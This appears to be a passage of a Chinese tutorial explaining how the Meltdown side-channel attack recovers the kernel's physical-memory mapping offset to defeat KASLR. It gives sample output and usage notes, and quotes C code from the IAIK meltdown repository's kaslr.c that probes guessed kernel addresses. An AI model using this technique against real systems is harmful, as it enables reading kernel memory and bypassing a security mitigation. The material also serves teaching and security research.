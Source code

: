 
我们在一台没有开启 KASLR 的机器上尝试一下上面的代码，取 `k_offset_min` 为默认值（`0xffff880000000000`）：

在我的机器上，其第一次尝试的结果类似于：

```
var = 0x7ffe13855ad0
addr_before_kaslr = 0x6eff0ad0
guess_addr_after_kaslr = 0xffff880000000000 + 0x6eff0ad0 = 0xffff88006eff0ad0
```

也就是说，我们向虚拟地址 `0x7ffe13855ad0` 写入 `a`，经过查询发现其对应的物理地址是 `0x6eff0ad0`，而经过映射，加上我们猜测的物理地址偏移量，地址为 `0xffff88006eff0ad0`，我们在这里读取到了 `a`。这说明我们猜测的偏移量是正确的，这个偏移量在重启之前不会改变。

注意：

- 这里通过虚拟地址查询物理地址是通过读取 `/proc/self/pagemap` 实现的，因此需要 root 权限；
- 为了避免程序执行混乱，这里的 `*var = 'a'` 需要使用一定的技巧，即不被编译器优化的多次写入，来防止因为优化带来的执行顺序不一致的问题；
- 为了正确得到结果，需要设置使用单核，采用 `taskset 0x1` 来运行； 

这段代码的一个实现参考：https://github.com/IAIK/meltdown/blob/master/kaslr.c

关键部分是：

```c
size_t scratch[4096];
size_t var = (size_t)(scratch + 2048);
*(char *)var = 'X';
size_t start = libkdump_virt_to_phys(var);

while (1) {
    /*
    为了解决执行顺序带来的还没有被写入内存的问题，这里写入了多次，并且声明禁止编译器优化。
    反汇编可以看到指令是：
      40068d:       c6 84 24 30 40 00 00    movb   $0x58,0x4030(%rsp)
      400694:       58
      400695:       c6 84 24 30 40 00 00    movb   $0x58,0x4030(%rsp)
      40069c:       58
      40069d:       c6 84 24 30 40 00 00    movb   $0x58,0x4030(%rsp)
      4006a4:       58
      4006a5:       c6 84 24 30 40 00 00    movb   $0x58,0x4030(%rsp)
      4006ac:       58
      4006ad:       c6 84 24 30 40 00 00    movb   $0x58,0x4030(%rsp)
      4006b4:       58
    */
    *(volatile char *)var = 'X';
    *(volatile char *)var = 'X';
    *(volatile char *)var = 'X';
    *(volatile char *)var = 'X';
    *(volatile char *)var = 'X';

    int res = libkdump_read(start + offset + delta);
    
    if (res == 'X') {
      // correct!
      print_offset();
      break;
    } else {
      // incorrect.
      change_delta();
    }
  }
```
